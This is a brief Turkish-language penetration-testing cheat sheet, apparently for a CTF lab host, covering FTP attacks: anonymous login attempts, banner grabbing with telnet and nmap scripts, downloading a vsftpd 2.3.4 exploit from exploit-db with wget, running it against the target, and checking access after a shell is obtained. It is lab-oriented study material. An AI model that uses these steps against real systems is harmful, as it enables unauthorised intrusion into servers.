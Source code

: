 eğer ftp açık ise 21/tcp 

FTP'ye anonim giriş izni olup olmadığını kontrol et.
ftp 10.10.249.23 komutunu kullanarak bağlanmayı dene.
Kullanıcı adı olarak anonymous, parola olarak boş bırakmayı veya guest yazmayı dene.

Yükleme/İndirme: Eğer giriş yapabilirsen, ls komutuyla dizinleri listeleyebilir ve dosya yükleme/indirme işlemleri yapabilirsin.
Banner Analizi: FTP sunucusunun versiyonunu öğrenmek için telnet 10.10.249.23 21 veya nmap --script ftp-anon,ftp-bounce -p 21 10.10.249.23 kullan.
Exploit Arama: Banner bilgisiyle (örneğin, "vsftpd 2.3.4") arama yaparak bu sürümle ilgili bilinen bir güvenlik açığı olup olmadığını araştır.
Örneğin, "vsftpd 2.3.4 exploit" gibi.


eğer exploit bulursak 
wget https://www.exploit-db.com/raw/49719 -O vsftpd_some_exploit.py

target_ip = "10.10.249.23"
target_port = 21

bunlarıda ayarla

pip install -r requirements.txt


pip install requests

python3 vsftpd_234_exploit.py 10.10.249.23 21


Eğer shell aldıysan, id, whoami, ls gibi komutlarla sistemde neler yapabileceğini görebilirsin.


